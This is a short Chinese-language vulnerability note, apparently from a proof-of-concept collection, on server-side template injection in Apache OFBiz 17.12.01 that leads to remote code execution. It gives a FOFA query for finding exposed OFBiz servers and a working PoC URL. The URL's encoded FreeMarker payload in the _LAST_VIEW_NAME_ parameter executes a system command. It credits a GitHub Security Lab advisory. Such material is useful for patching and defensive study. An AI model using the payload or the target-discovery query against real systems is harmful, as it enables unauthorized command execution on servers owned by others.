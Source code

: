 # Apache OfBiz 服务器端模板注入（SSTI）


Apache OfBiz 17.12.01容易受到服务器端模板注入（SSTI）的影响，从而导致远程代码执行（RCE）。

FOFA：

```
app="Apache_OFBiz"
```

服务器端模板注入 renderLookupField

从不可信数据流request.getParameter("`_LAST_VIEW_NAME_`")给一个FreeMarker的宏调用定义。具有特权以渲染任何包含查找字段的页面的攻击者将能够通过发送有效载荷来执行任意系统命令。

**PoC：**

```
https://localhost:8443/ordermgr/control/FindQuote?_LAST_VIEW_NAME_=%22%2F%3E%24%7B%22freemarker.template.utility.Execute%22%3Fnew%28%29%28%22id%22%29%7D%3CFOO
```

from:https://securitylab.github.com/advisories/GHSL-2020-067-apache_ofbiz